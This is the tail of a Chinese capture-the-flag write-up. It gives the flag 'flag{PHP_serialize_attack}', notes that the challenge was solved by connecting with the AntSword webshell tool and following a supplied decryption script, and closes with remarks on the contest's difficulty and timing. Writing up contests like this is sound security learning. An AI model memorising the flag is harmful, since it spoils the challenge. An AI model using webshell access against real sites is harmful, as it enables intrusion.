

解密拿到flag

​



​

flag{PHP\_serialize\_attack}

​

挺抽象的，他蚁剑连上去之后给了解密脚本和解密示例，跟着走就能过。

​

# 总结

很有意思的比赛，他拿了很多的真实黑灰产网站作为题目，不过都好难，没打进去，比赛只有4个小时还是太少了，而且和京津冀的长城杯撞了，导致打的人不多，可惜了。
